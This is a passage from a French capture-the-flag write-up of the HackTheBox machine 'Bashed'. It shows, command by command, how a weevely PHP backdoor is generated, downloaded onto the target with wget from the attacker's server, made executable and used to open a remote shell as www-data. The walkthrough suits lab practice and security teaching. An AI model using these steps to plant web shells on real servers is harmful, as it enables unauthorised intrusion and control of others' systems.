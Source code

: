 Générons un reverse shell :

```bash
root@kali:~/bashed# weevely generate s3cr3t $(pwd)/lol.php                                 
Generated backdoor with password 's3cr3t' in '/root/bashed/lol.php' of 1446 byte size.
```

Uploadons le sur la machine distante : 

```bash
#Depuis kali 
root@kali:~/bashed# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
10.10.10.68 - - [26/Apr/2018 21:29:57] "GET /lol.php HTTP/1.1" 200 -

#Depuis la cible
www-data@bashed:/var/www/html/dev# cd ../uploads
www-data@bashed:/var/www/html/uploads# wget http://10.10.14.11:8080/lol.php
--2018-04-26 12:29:56-- http://10.10.14.11:8080/lol.php
Connecting to 10.10.14.11:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1446 (1.4K) [application/octet-stream]
Saving to: 'lol.php'

0K . 100% 742K=0.002s

2018-04-26 12:29:56 (742 KB/s) - 'lol.php' saved [1446/1446]
Try 'chmod --help' for more information.
www-data@bashed:/var/www/html/uploads# chmod 777 lol.php
www-data@bashed:/var/www/html/uploads# ls -al
total 16
drwxrwxrwx 2 root root 4096 Apr 26 12:29 .
drw-r-xr-x 10 root root 4096 Dec 4 12:43 ..
-rwxrwxrwx 1 root root 14 Dec 4 12:44 index.html
-rwxrwxrwx 1 www-data www-data 1446 Apr 26 12:28 lol.php
```

Maintenant on va lancer le reverse shell depuis le navigateur via l'url : 

```bash
http://10.10.10.68/uploads/lol.php
```

Puis on lance weevely sur kali : 

```bash
root@kali:~/bashed# weevely http://10.10.10.68/uploads/lol.php s3cr3t

[+] weevely 3.2.0

[+] Target:     10.10.10.68
[+] Session:    /root/.weevely/sessions/10.10.10.68/lol_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
